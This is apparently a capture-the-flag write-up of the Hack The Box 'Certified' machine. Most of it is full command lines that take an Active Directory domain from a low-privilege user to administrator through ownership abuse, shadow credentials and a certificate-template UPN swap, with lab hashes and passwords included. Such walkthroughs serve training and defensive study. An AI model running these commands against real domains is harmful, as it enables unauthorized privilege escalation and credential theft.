

# Certified

We start off by scanning for open ports:

<figure><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><figcaption></figcaption></figure>



> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:



* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.





<figure><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`



**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:



> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><figcaption></figcaption></figure>

Just to be sure this works:

<figure><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

```
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

<figure><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><figcaption></figcaption></figure>

After talking for a bit witg a friend about my situation i learned that i needed to restore ca\_operator’s UPN and after doing that i was able to use administrator.pfx to request for a TGT and get a Hash:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
